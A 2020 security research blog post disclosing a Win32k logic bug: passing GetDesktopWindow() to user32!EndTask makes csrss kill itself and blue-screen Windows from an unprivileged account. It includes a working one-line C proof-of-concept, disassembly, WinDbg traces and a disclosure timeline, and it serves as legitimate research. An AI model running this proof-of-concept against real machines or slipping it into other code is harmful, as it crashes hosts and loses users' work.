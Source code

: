 +++
title = "An unexpected logic bug on Win32k"
author = "hugsy"
date = 2020-03-09T00:00:00Z
updated = 2020-03-09T00:00:00Z

[taxonomies]
categories = ["research"]
tags = ["windows,kernel,logic,bug,win32k"]

[extra]
header-img = "/img/CDA9D98DF912DE08CB61AD0A3A148723A37BC3F3.png"
+++

## The short version

The short version is that there's a small logic bug in  `user32!EndTask()` which doesn't really check the `HWND` handle passed when forcefully killing the process, allowing unprivileged process to BSoD the host by killing the critical process `csrss`. And as a bonus the PoC code #FitsInATweet:

```c
int WinMain(HINSTANCE h, HINSTANCE ins, LPSTR cmd, int nb)
{
    EndTask(GetDesktopWindow(), 0, 1);
    return 0;
}
```

Just compile, run (here on a build 19569.1000 x64) and enjoy:

![bsod](https://i.imgur.com/DRxULeh.png)


## The less short version

Reversing `Win32k.sys` driver has been my hobby lately mostly to understand it (finally) seriously - if there is such a thing. This is a really small funny logic bug I encountered while reversing it, which I don't feel too bad disclosing since there is [no security exploitability](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria) (simply annoying your sysadmin).


### The juicy part

The legacy function [EndTask](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-endtask) can be used to forcefully close the specific window whose handle is passed as argument, and free all associated resources. Although deprecated according to the MSDN, it is still callable even on the latest Windows versions.

The function `user32!EndTask()` is merely a wrapper designed to forward some specific messages to the [CSRSS](https://en.wikipedia.org/wiki/Client/Server_Runtime_Subsystem) via an ALPC, using the exported function
`ntdll!CsrClientCallServer` with the ApiNumber 0x30401. Easily enough, the function takes the handle to the window to shut down. The function operates with the thread's token, and is unprivileged. Starting playing around, I remembered that `GetDesktopWindow()` will return a valid handle to the desktop window, but has [many interesting properties](https://devblogs.microsoft.com/oldnewthing/20040224-00/?p=40493) including that that it is owned by `csrss.exe`. That can be quickly demonstrated using the following code:

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    char msg[1024]={0,};
    HWND hwnd = GetDesktopWindow();
    DWORD dwProcessId;
    GetWindowThreadProcessId(hwnd, &dwProcessId);
    sprintf(msg, "hwnd=%p pid=%lu\n", hwnd, dwProcessId);
    MessageBoxA(0,msg,0,MB_OK);
    return 0;
}
```
which will output the PID of CSRSS

![finding_csrss](https://i.imgur.com/Q4XsJZP.png)


In turn, CSRSS will consume that message and call `winsrvext!SrvEndTask()` then `winsrvext!EndTask()`. In this function, in order to determine the process to terminate `csrss` will invoke `GetWindowThreadProcessId()` and will use the found process id value to look into the [`CSR_PROCESS`](http://www.geoffchappell.com/studies/windows/win32/csrsrv/api/process/process.htm) linked
list (via `csrsrv!CsrRootProcess`), and find the `CSR_PROCESS` structure associated to such PID. From `winsrvext.dll`:

```asm
_EndTask      ; NTSTATUS __fastcall EndTask(HWND hWnd, int a2)
_EndTask      _EndTask        proc near               ; CODE XREF: SrvEndTask+119↓p
_EndTask                                              ; DATA XREF: .pdata:000000000001D21C↓o
[...]
_EndTask+A7                   lea     rdx, [rsp+120h+dwProcessId] ; lpdwProcessId
_EndTask+AC                   mov     rcx, rdi        ; hWnd
_EndTask+AF                   call    cs:__imp_GetWindowThreadProcessId
```

### The bug

And therein lied the bug: as shown above with the small C snippet, the owner of `GetDesktopWindow()` is `csrss` itself, therefore the lookup will return the `CSR_PROCESS` structure of `CSRSS` (which happens to be the first entry in the `CsrRootProcess` linked list). Finally, `winsrvext!EndTask()` will proceed to call `ntdll!NtTerminateProcess()` passing the handle to the
process `CSRSS`, which has the value `(HANDLE)-1` (i.e. `GetCurrentProcess()`). WinDbg can be used to confirm that behavior:

```txt
0: kd> dps poi( csrsrv!CsrRootProcess )
00000218`7d004550  00000000`00000c14 <- CSR_PROCESS.ClientId
00000218`7d004558  00000000`00000c18
00000218`7d004560  00000218`7d008bf0 <- CSR_PROCESS.LinkList
00000218`7d004568  00000218`7d04b3a0 <- CSR_PROCESS.ThreadList
00000218`7d004570  00000218`7d005368 [...]
00000218`7d004578  00000218`7d0486b8
00000218`7d004580  00000000`00000000
00000218`7d004588  00000000`00000000
00000218`7d004590  00000000`00000000
00000218`7d004598  00000000`00000000
00000218`7d0045a0  ffffffff`ffffffff <<- CSR_PROCESS.ProcessHandle (i.e. value passed to NtTerminateProcess)
00000218`7d0045a8  00000040`00000005
[...]
```

Therefore, this will make `CSRSS` killing itself when invoking calling the syscall `nt!NtTerminateProcess(GetCurrentProcess(), 0 )`. As a critical process, killing CSRSS will immediately result in a BSoD, which BugCheck clearly shows. Also note that this crash can be triggered by any user even with any privilege. In WinDbg the faulting stack trace of our BSoD retraces exactly everything we show:

```txt
CRITICAL_PROCESS_DIED (ef)
        A critical system process died
[...]
Arguments:
Arg1: ffffe30f47ce14c0, Process object or thread object
Arg2: 0000000000000000, If this is 0, a process died. If this is 1, a thread died.
[...]

STACK_TEXT:
ffff8803`2a71f280 fffff801`795c75c1 : [...] : nt!PspCatchCriticalBreak+0xa9
ffff8803`2a71f320 fffff801`79439fc0 : [...] : nt!PspTerminateAllThreads+0x175e3d
ffff8803`2a71f390 fffff801`79439da9 : [...] : nt!PspTerminateProcess+0xe0
ffff8803`2a71f3d0 fffff801`78fd2d15 : [...] : nt!NtTerminateProcess+0xa9
ffff8803`2a71f440 00007ff9`83b5c644 : [...] : nt!KiSystemServiceCopyEnd+0x25
000000b6`d35befd8 00007ff9`809066e5 : [...] : ntdll!NtTerminateProcess+0x14
000000b6`d35befe0 00007ff9`80906bae : [...] : winsrvext!EndTask+0x235
000000b6`d35bf110 00007ff9`80975af4 : [...] : winsrvext!SrvEndTask+0x11e
000000b6`d35bf380 00007ff9`83b2cedf : [...] : CSRSRV!CsrApiRequestThread+0x484
000000b6`d35bf810 00000000`00000000 : [...] : ntdll!RtlUserThreadStart+0x2f
```

## Final words

This was a good lesson, mostly because I would never have thought finding a (cheap) logic bug in an API that is around for decades and probably gleaned at many times by people way smarter.

Also, I've reported more Win32k bugs to MS which I'll be writing up on soon.

That's all for this quick post!

✌

## Disclosure timeline

  * 2019-12-09 : Bug found
  * 2020-02-08 : Finally found some time to do some analysis
  * 2020-02-09 : Issue submitted to MSRC (case 56511)
  * 2020-03-04 : EWONTFIX
